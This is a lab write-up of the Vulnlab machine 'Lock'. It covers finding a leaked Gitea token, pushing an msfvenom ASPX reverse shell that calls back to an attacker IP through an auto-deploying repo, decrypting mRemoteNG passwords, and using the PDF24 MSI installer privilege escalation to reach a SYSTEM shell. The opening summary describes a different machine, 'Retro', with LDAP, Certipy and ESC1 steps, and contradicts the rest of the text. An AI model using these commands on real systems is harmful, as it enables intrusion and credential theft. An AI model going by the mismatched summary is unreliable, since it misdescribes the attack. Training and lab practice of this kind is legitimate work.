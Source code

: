 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Lock/logo.png
date: 2024-06-23 09:45:47 +07:00
modified: 2024-06-23 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: kozmer
  link: https://app.hackthebox.com/users/637320
tags: [Gitea, access token, repository, reverse shell, privilege escalation, mRemoteNG, mRemoteNG decryptor, PDF24, MSI installer, Windows, shell access, CI/CD integration]
title: Lock - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro is an **easy** difficulty machine where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize credential brute forcing to discover simple passwords, and employ Impacket and Certipy to change credentials and exploit an ESC1 vulnerability for privilege escalation. The final step involved obtaining a TGT for the administrator to capture the root flag.

# Enumeration

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
```

I started by looking at port 80 with some directory bruteforcing by nothing interesting. It seems like its a static website.

![](https://photos.squarezero.dev/file/abir-images/Lock/0.png)

Next, I visited port 3000 and It was running Gitea.

![](https://photos.squarezero.dev/file/abir-images/Lock/1.png)

I explored the Gitea instance and found **dev-scripts** repo by **ellen.freeman** and it looks like its a script for accessing Gitea with the access token.

![](https://photos.squarezero.dev/file/abir-images/Lock/2.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/3.png)

Afterthat I checked the previous commits and found exposed access token for ellen.freeman.

![](https://photos.squarezero.dev/file/abir-images/Lock/4.png)

# Shell as Ellen Freeman

I downloaded the script and after running it, it showed another hidden repository called **website**.

![](https://photos.squarezero.dev/file/abir-images/Lock/5.png)

After researching for a bit I found out that I can clone a repository using an access token.

`git clone http://ellen.freeman:<REDACTED>@lock.vl:3000/ellen.freeman/website.git`

![](https://photos.squarezero.dev/file/abir-images/Lock/6.png)

Inside the repository, there was a README.md where it stated that the git repo would be automatically deployed after. And after looking at the repo carefully it seems like its the website hosted on port 80.

```
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```

![](https://photos.squarezero.dev/file/abir-images/Lock/7.png)

I created a reverse shell and used git to push the shell into the main website.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.2.110 LPORT=4444 -f aspx -o shell.aspx`

```bash
#Add username and email
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl

#Stage the shell
git add shell.aspx 

#Commit with a message
git commit -m 'shell'

#Update the repo
git push
```

I made a request with curl and got a reverse shell.

`curl http://lock.vl/shell.aspx`

![](https://photos.squarezero.dev/file/abir-images/Lock/8.png)

# Ellen.freeman to Gale.dekarios

Inside the Ellen's Document folder there was a config file.

```
C:\USERS\ELLEN.FREEMAN        
|   .git-credentials
|   .gitconfig
|   
+---.ssh      
|       authorized_keys       
|   
+---3D Objects
+---Contacts  
+---Desktop   
+---Documents 
|       config.xml  
|   
+---Downloads 
+---Favorites 
|   |   Bing.url    
|   |         
|   \---Links 
+---Links     
|       Desktop.lnk 
|       Downloads.lnk         
|   
+---Music     
+---Pictures  
+---Saved Games     
+---Searches  
\---Videos
```

The config file is for ***mRemoteNG*** which containes encrypted password for the user.

![](https://photos.squarezero.dev/file/abir-images/Lock/9.png)


I used mremoteng-decryptor to decrypt the config file and found credential for remote access. And after logging in I got the user flag.

![](https://photos.squarezero.dev/file/abir-images/Lock/10.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/11.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/12.png)

# Gale.dekarios to root

In the desktop I saw PDF24 and I after looking online I found an local Privilege escalation for it.

[Local Privilege Escaltion via MSI installer in PDF24](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/)

![](https://photos.squarezero.dev/file/abir-images/Lock/13.png)

After looking in the hidden folders I found ***_install folder*** which containes the installer for PDF24.

![](https://photos.squarezero.dev/file/abir-images/Lock/14.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/15.png)

Next, I opened 2 terminal and in one of them I set the oplock on the PDF24 log file and after that in another terminal I executed the installer with MSI just like its said on the article.

`msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`

`.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`

![](https://photos.squarezero.dev/file/abir-images/Lock/16.png)

After waiting for a little bit a new CMD window opened and I follwed alone the article to spawn a cmd shell as administrator with in the legacy console mode.

* right click on the top bar of the cmd window.
* click on properties.
* under options click on the “legacy console mode” link.
* open the link with a browser other than internet explorer or edge (both don't open as SYSTEM when on Win11).
* in the opened browser window press the key combination CTRL+o.
* type “cmd.exe” in the top bar and press Enter.

![Right click on the top bar of the cmd window and click on properties](https://photos.squarezero.dev/file/abir-images/Lock/17.png)


![Under options click on the “legacy console mode” link.](https://photos.squarezero.dev/file/abir-images/Lock/18.png)


![Click Internet Explorer or Edge](https://photos.squarezero.dev/file/abir-images/Lock/19.png)


![Press the key combination CTRL+o](https://photos.squarezero.dev/file/abir-images/Lock/20.png)


![Type “cmd.exe” in the top bar and press Enter](https://photos.squarezero.dev/file/abir-images/Lock/21.png)

Now with the administrator shell I got the root flag.